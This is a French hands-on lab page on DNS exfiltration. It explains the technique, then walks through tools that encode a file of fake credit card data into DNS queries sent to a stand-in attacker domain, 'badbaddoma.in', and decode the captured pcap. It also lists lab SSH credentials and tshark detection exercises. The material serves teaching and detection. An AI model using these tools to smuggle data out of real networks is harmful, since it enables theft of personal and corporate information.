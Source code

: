 # Exfiltration DNS

### Exfiltration DNS : Theorie 

- L'exfiltration DNS est une cyberattaque sur les serveurs via le DNS, qui peut être effectuée manuellement ou automatiquement en fonction de l'emplacement physique de l'attaquant et de la proximité des appareils cibles.   
- Dans un scénario manuel, les attaquants obtiennent souvent un accès physique non autorisé à l'appareil ciblé pour extraire des données de l'environnement.
- Alors que dans l'exfiltration DNS automatisée, les attaquants utilisent des logiciels malveillants pour effectuer l'exfiltration des données à l'intérieur du réseau compromis.

- Le service DNS est généralement disponible sur une machine cible et autorisant le trafic sortant généralement sur le port TCP ou UDP 53. Cela fait du DNS un candidat de choix pour les pirates informatiques à utiliser pour exfiltrer des données.

- L'exfiltration de données via DNS pourrait permettre à un attaquant de transférer un grand volume de données depuis l'environnement cible. De plus, l'exfiltration DNS est principalement utilisée comme moyen de **collecter des informations personnelles** telles que les numéros de sécurité sociale, la propriété intellectuelle ou d'autres informations personnellement identifiables.

- L'exfiltration DNS est principalement utilisée **en ajoutant des chaînes contenant le « butin » souhaité aux requêtes DNS UDP**. La chaîne contenant le butin serait alors envoyée à un serveur DNS malveillant qui enregistre ces requêtes.
- 
- Pour un œil non averti, cela pourrait ressembler à un trafic DNS normal ou ces demandes pourraient être perdues dans le mélange de nombreuses demandes DNS légitimes.

<p align="center">
  <img src="https://cdn.discordapp.com/attachments/798799811482353734/807298488881643550/exfil.png"/>
</p>

---

### Exfiltration DNS : Exemple

- Dans cet exemple de scénario, un attaquant essaie d'exfiltrer des données vers son système et a décidé que sa meilleure option serait d'utiliser des requêtes DNS. 
- L'objectif de l'attaquant est d'exfiltrer des informations sensibles d'une machine sur le réseau de SecureCorp. Dans cet exemple, nous montrerons les étapes qu'un attaquant pourrait suivre pour exfiltrer ces données de la machine compromise.

<img src="https://cdn.discordapp.com/attachments/798799811482353734/807298488881643550/exfil.png"/>

les informations de carte de crédit ont été générés via un faux générateur de cartes de crédit.   
Toutes les informations de carte de crédit sont fausses :)

**Important**
Vous aurez besoin de fichiers pour compléter le reste du TP.

[securecorp.txt](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/securecorp.txt)  
[packety.py](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/packety.py)  
[packetGrabber.py](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/packetyGrabber.py)  

1. Fichier texte contenant de faux numéros de carte de crédit, noms, adresses.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129675221958696/1.PNG"/>

**Partie encodeur-transmetteur DNS**

2. (packety.py)[https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/packety.py]

Lorsque packety.py est exécuté, vous devrez fournir au script l'entrée suivante :

* Nom de fichier : (C'est le fichier que vous essayez d'exfiltrer du réseau de SecureCorp)

* Nom de domaine : ( c'est ici que vous allez mettre votre nom de domaine, par exemple badbaddoma.in )

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129727180472340/2.1.PNG"/>


`python packety.py   
`
`Filename: securecorp.txt   
`
`Domain Name (Example: badbaddoma.in): badbaddoma.in 
`
`[+] Reading file.  
`
`[+] Base64 encoded.  
`
`[+] Base58 encoded.  
`
`Start transmitting... [PRESS ENTER KEY]    
`

- Le code commence par la lecture du fichier texte.   
- Le contenu du fichier texte sera d'abord encodé en Base64 puis en Base58. Cela nous laisse avec une longue chaîne encodée.  
- La chaîne est ensuite divisée en sections de 20 caractères où chaque section aura 3 caractères 'factices' ajoutés pour plus d'obscurcissement.   
- Un caractère sera ajouté au début de la chaîne encodée et deux caractères seront ajoutés.

- Par exemple, une section des données encodées pourrait ressembler à ceci : « 6gfghhjywsas3rg4hda3 ». Une fois les caractères supplémentaires ajoutés, il deviendra "x6gfghhjywsas3rg4hda3yu".
- Une fois que tout est encodé et prêt, le code attendra que l'utilisateur appuie sur "ENTREE" afin de commencer à transmettre les requêtes au serveur DNS.  
- Le serveur DNS a déjà été configuré pour capturer les requêtes entrantes avec 'Wireshark' ou 'tshark'.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129732692967474/3.PNG"/>

- Ensuite, il ne reste plus qu'à attendre que la transmission atteigne 100%. Si l'une des requêtes n'est pas livrée à temps et dans le bon ordre, les données exfiltrées seront incomplètes et inutiles pour l'attaquant.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129738539565066/5.PNG"/>

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129741236502568/6.PNG"/>

**Partie decodeur-recepteur DNS**

3. [packetyGrabber.py] (https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/packetyGrabber.py)

Le code demandera à l'utilisateur la saisie suivante :

* Fichier capturé : Il s'agit du fichier .pcap que vous avez capturé sur votre serveur DNS.

* Nom du fichier de sortie : il s'agit du nom du fichier dans lequel les données décodées seront enregistrées.

* Nom de domaine : Ce sera votre nom de domaine.  

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129744641622016/7.PNG"/>

`python3 ~/tools/packety/packetyGrabber.py  
`
`File captured: cap-credit-cards.pcap  
`
`Filename output: credit-cards.txt  
`
`Domain Name (Example: badbaddoma.in): badbaddoma.in  
`
`[+] Domain Name set to badbaddoma.in  
`
`[+] Filtering for your domain name.  
`
`[+] Base 58 decoded.  
`
`[+] Base 64 decoded.  
`
`[+] Output to credit-cards.txt. 
`
- Si tout se passe bien, qu'aucune requête n'a été perdue et que toutes les entrées sont correctes, un fichier avec les données décodées sera enregistré dans le même répertoire à partir duquel vous avez exécuté le code.  

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129748282933258/8.PNG"/>

---

### Exfiltration DNS : Pratique

**Se connecter à la machine cible en SSH**

Utiliser les crédentiels suivants :
* Utilsateur : user
* Mot de passe : P@ssword01

Parcourir les fichiers dans les dossiers :
```console
~/challenges/exfiltration
~/dns-exfil-infil/
```

Aller dans le dossier ci-dessous et lire les instructions dans le fichier TASK :
```console
$ cd ~/challenges/exfiltration/orderlist
```

L'extension de fichier .pcap  est principalement associée avec Wireshark
les fichiers .pcap créés pas Woreshark contiennent les données en paquets d'un réseau. 

Ces fichiers sont utilisés principalement dans l'analyse des caractéristiques du réseau d'un certain données. Ils contribuent également à contrôler avec succès le trafic d'un certain réseau depuis qu'ils sont surveillés par le programme.

- Analyser le fichier order.pcap et détecter le fichier comportant des requêtes suspectes :
```console
Réponse : $ tshark ...
```

Le script `~/dns-exfil-infil/packetyGrabber.py` permet de decrypter les fichiers Wireshark.
```console
$ python3 ~/dns-exfil-infil/packetyGrabber.py
```

Ignorer l'exception levée à la fin du script.

Quel est le nom de la première transaction ? 
```console
Réponse : 
```

Quel est la valeur de la transaction Firewall ?
```console
Réponse : 
```

Aller dans le dossier ci-dessous :
```console
$ cd ~/challenges/exfiltration/identify/
```
Parmi les fichiers `*.pcap` analyser leur contenu :
```console
Réponse : $ tshark ...
```
Si vous peinez à réaliser la commande demander au formateur de vous la fournir



Quel fichier contient des requêtes DNS douteuses ? Pourquoi ?
```console
Réponse : 
```

```console
python3 ~/dns-exfil-infil/packetyGrabber.py
```

Trouver le texte récupéré après avoir décodé les données en utilisant le programe Pyhton packetyGrabber.py qui se trouve dans le dossier `~/dns-exfil-infil/`.
```console
Réponse : 
```
